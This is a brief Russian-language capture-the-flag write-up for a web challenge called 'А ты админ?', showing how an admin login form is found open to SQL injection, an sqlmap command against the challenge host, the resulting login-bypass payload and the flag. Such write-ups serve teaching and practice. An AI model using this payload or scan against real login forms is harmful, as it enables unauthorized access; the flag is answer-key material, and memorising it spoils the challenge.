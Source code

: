 # А ты админ?
Видим обычную форму ввода в админ панель, проверим на уязвимость к sql инъекциям отправив ковычку.  
Получаем ошибку, а значит сервис уязвим  
![strings](https://github.com/Lip4ik/arctf/blob/main/web/%D0%90%20%D1%82%D1%8B%20%D0%B0%D0%B4%D0%BC%D0%B8%D0%BD?/solve/error.png)  

Натравим на него sqlmap  
`sqlmap -u "http://bnw.saintvegas.cc:1338" --data="user=admin&password=*"` 
Получаем строку, которую нужно отправить, чтобы получить доступ  
`-9028' OR 2644=2644-- pWKv`  
Наш флаг arctf{too_easy_sql_inj}   
 
